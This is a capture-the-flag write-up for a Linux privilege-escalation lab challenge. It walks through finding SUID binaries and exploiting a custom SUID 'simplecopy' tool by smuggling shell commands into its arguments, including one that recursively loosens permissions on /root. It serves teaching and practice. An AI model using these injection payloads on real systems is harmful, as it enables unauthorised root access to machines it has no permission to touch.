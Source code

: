 # Objective 7: Linux PrivEsc
**Location: Island of Misfit Toys: Ostrich Saloon**  
**Hints provided by Rose Mold**

The objective is to perform a privilege escalation in a Linux terminal session. Finally the binary residing in `/root` has to be executed.
The first approach is to find `suid` files on the file system:
```
elf@745490537a8a:~$ find / -perm -4000 -ls 2>/dev/null
1312417 84 -rwsr-xr-x 1 root root 85064 Nov 29 2022 /usr/bin/chfn
1312423 52 -rwsr-xr-x 1 root root 53040 Nov 29 2022 /usr/bin/chsh
1312541 56 -rwsr-xr-x 1 root root 55528 May 30 2023 /usr/bin/mount
1312546 44 -rwsr-xr-x 1 root root 44784 Nov 29 2022 /usr/bin/newgrp
1312620 68 -rwsr-xr-x 1 root root 67816 May 30 2023 /usr/bin/su
1312484 88 -rwsr-xr-x 1 root root 88464 Nov 29 2022 /usr/bin/gpasswd
1312645 40 -rwsr-xr-x 1 root root 39144 May 30 2023 /usr/bin/umount
1312557 68 -rwsr-xr-x 1 root root 68208 Nov 29 2022 /usr/bin/passwd
1457015 20 -rwsr-xr-x 1 root root 16952 Dec 2 22:17 /usr/bin/simplecopy
```

`simplecopy` looks promising as this does usually not exist on Linux systems (and has a recent last modified date).

Invoking this binary with some test arguments show interesting error messages and reveals the name of the binary in `/root`:
```
elf@745490537a8a:~$ simplecopy "; ls -l /root" b
cp: missing file operand
Try 'cp --help' for more information.
ls: cannot access 'b': No such file or directory
/root:
total 600
-rws------ 1 root root 612560 Nov 9 21:29 runmetoanswer
```

So it seems that it is possible to inject shell commands in the arguments. We use this to add read and execute permissions to `/root` and `/root/runmetoanswer`:
```
elf@745490537a8a:~$ simplecopy "a; chmod -R a+rx /root" b
cp: missing destination file operand after 'a'
Try 'cp --help' for more information.
chmod: cannot access 'b': No such file or directory
elf@745490537a8a:~$ ls -l /root
total 600
-rwsr-xr-x 1 root root 612560 Nov 9 21:29 runmetoanswer
elf@745490537a8a:~$ /root/runmetoanswer
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```


**Achievement: Linux PrivEsc**
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEwNzExNDQyNjEsLTE3NjY1NTE2MjAsLT
gyNjE3ODY4NCwtMjAxMDE5MjYzXX0=
-->
